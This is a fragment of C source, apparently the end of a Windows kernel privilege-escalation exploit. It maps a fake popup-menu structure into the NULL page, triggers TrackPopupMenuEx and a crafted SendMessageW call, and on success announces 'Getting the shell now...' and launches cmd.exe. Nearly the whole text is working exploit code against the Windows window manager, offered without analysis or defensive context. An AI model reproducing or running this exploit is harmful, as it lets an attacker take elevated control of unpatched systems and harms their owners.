 	dwPopupFake[0xC] = (DWORD)0;

	/* Copying it to the NULL page */
	RtlCopyMemory(MemAddr, dwPopupFake, 0x1000);

	/* Allowing to access the NULL page mapped values */
	release = 1;
	hwndMenuList[2] = NULL;
	TrackPopupMenuEx(hMenuList[1], 0, 0, 0, hWindowMain, NULL);
	
	/* Freeing the allocated NULL memory */
	VirtualFree(MemAddr, 0x1000, 0);

	SendMessageW(hWindowHunt, 0x1234, (WPARAM)hwndMenuList[0], 0x11);

	if (success)
	{
		STARTUPINFO si = { sizeof(si) };
		PROCESS_INFORMATION pi = { 0 };
		si.dwFlags = STARTF_USESHOWWINDOW;
		si.wShowWindow = SW_SHOW;
		printf("Getting the shell now...\n");
		BOOL bRet = CreateProcessA(NULL, (LPSTR)"cmd.exe", NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
		if (bRet)
		{
			CloseHandle(pi.hProcess);
			CloseHandle(pi.hThread);
		}
	}

	DestroyWindow(hWindowMain);

	MSG msg = { 0 };
	while (GetMessageW(&msg, NULL, 0, 0))
	{
		TranslateMessage(&msg);
		DispatchMessageW(&msg);
	}
	return 0;
}
            

```